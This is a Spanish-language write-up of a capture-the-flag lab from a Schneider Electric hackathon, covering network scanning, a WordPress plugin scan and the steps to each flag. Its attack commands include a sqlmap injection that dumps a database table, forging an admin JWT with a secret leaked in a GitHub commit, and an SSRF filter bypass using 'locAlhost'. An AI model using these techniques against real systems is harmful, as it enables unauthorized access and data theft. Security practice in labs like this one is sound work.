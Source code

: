# Schneider Electric Hackathon

WriteUp de Alecks Rodriguez para el Hackaton 

# Archivos

Los archivos necesarios se encuentran aquí: 
[Maquina Virtual para Virtual Box](https://challenges-asset-files.s3.us-east-2.amazonaws.com/cyber/CTF-Schneider-Vbox.zip)
[Maquina Virtual para VMWare](https://s3.console.aws.amazon.com/s3/object/challenges-asset-files?region=us-east-2&prefix=cyber/CTF-Schneider-VMWare.zip)

# Procedimiento General

- Importar Maquina Virtual
- Escanear la red para obtener la ip de la maquina virtual

> netdiscover -i "puerto de internet (eth0, eth1, wlan0)"

- Escanear puertos y servicios
    nmap -sV -A -O -T5 -p- --script vuln  < IP > (En mi caso fue 192.168.100.137)

Noté que hay muchos puertos, pero solo muy pocos me llamaron la atención, como los puertos **80**, **1337** y **5000**
No encontré nada en el puerto 80 de la pagina y en el puerto 5000 aparece la siguiente leyenda: 

    {"text":"There is nothing to see here (I guess)"}

# FLAG{Update_Plugins!}

- Agregar la ip a **/etc/hosts** 
- Entrar a la ip/robots.txt
Despues de entrar a Robots.txt nos aparece la siguiente pagina:

    https://wp.geohome.com
Aqui nos damos cuenta de que es una pagina de WordPress
- Hacer escaneo de WordPress

    wpscan -v --disable-tls-checks --url https://wp.geohome.com/ --api-token < token >

 Se identificaron 4 vulnerabilidades en https://wp.geohome.com/wp-content/plugins/perfect-survey/, el cual nos permite investigar el exploit de la vulnerabilidad:
 

    /admin-ajax.php?action=get_question&question_id=1
Y la pagina se explota cuando se pone todo el enlace completo:

    https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1
- Usar Sqlmap
> sqlmap -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --threads 3 -D flag -T flag --dump

# FLAG{ALWAYS_CHECK_COMMITS}
- Entrar a la pagina de github:

    https://github.com/geohome-dev/GeoAPI/commit/e82c17ed045e205a2ea07a354ae5b39c8b7d7ea0#

# {"Flag":"API_FLAG{Never_public_your_secret}","Message":"Oh hello again dear Administrator"}

- Entrar a Postman
- Contigurando: 
	POST
	ip:5000/register
	Body: raw: json: {"username":**user**, "password":**pass**}
- Enviar la información (Se habrá creado un usuario con esos datos)
- Configurando:
	POST
	ip:5000/login
	Body: raw: json: {"username":**user**, "password":**pass**}
- Enviar la información 
- Copiar el token que se genere
- Entrar a https://jwt.io/
- Pegar el token en encoded
- En la parte derecha "**payload**" cambiar el dato que tenga la variable "**sub**" por **admin**
- En la parte derecha "**verify signature**" escribir en "**your-256-bit-secret**" "**Ge0HomeIsThePlaceWhereFantasyMeetsReality**" (el cual ha sido copiado del Github)
- Copiar el token generado
- Usar el siguiente comando
    curl http://wp.geohome.com:5000/admin -H "Authorization:Bearer TOKEN"
# FLAG{SSRF_PARA_TOD@S_XD}
- Hacer un wfuzz a la extension "**.php**" usando el worldlist de "**dirb**" llamado "**common.txt**" a la pagina http://wp.geohome.com/FUZZ.php
- Usar la extension "**testsite.php**"
- Bypassear el "**localhost**" con "**locAlhost**" con el puerto **"1337"**
- Usar la direccion: 
http://192.168.100.137/testsite.php?url=http://locAlhost:1337
